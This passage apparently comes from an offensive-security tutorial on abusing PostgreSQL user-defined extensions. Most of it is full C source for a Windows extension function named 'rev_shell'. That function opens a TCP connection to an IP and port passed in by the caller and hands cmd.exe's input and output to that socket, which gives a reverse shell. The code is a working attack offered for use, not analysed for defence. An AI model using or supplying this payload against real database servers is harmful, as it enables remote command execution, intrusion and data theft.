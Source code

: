 ## User-defined extensions

Instead of writing scripts to disk and somehow getting the target application to execute it, we can
define custom extensions and functions in PostgresSQL. A PostgreSQL extension is a compiled shared
object (e.g. a `.dll` or `.so` file) using PostgreSQL's extension library. Extension library files
_must_ be compiled using PostgreSQL's extension library, or else the won't be recognized by the
server and will fail to load. Here's an example of a reverse shell extension written in **C**,
targeted at the Windows operating system:

```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include <winsock2.h>
#include "utils/builtins.h"
#pragma comment(lib, "ws2_32")

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum rev_shell(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(rev_shell);

WSADATA wsaData;
SOCKET s1;
struct sockaddr_in hax;
char ip_addr[16];
STARTUPINFO sui;
PROCESS_INFORMATION pi;

Datum
rev_shell(PG_FUNCTION_ARGS)
{

	/* convert C string to text pointer */
#define GET_TEXT(cstrp) \
   DatumGetTextP(DirectFunctionCall1(textin, CStringGetDatum(cstrp)))

	/* convert text pointer to C string */
#define GET_STR(textp) \
  DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

	WSAStartup(MAKEWORD(2, 2), &wsaData);
	s1 = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

	hax.sin_family = AF_INET;
	hax.sin_port = htons(PG_GETARG_INT32(1));
	hax.sin_addr.s_addr = inet_addr(GET_STR(PG_GETARG_TEXT_P(0)));

	WSAConnect(s1, (SOCKADDR*)&hax, sizeof(hax), NULL, NULL, NULL, NULL);

	memset(&sui, 0, sizeof(sui));
	sui.cb = sizeof(sui);
	sui.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
	sui.hStdInput = sui.hStdOutput = sui.hStdError = (HANDLE)s1;

	CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sui, &pi);
	PG_RETURN_VOID();
}
```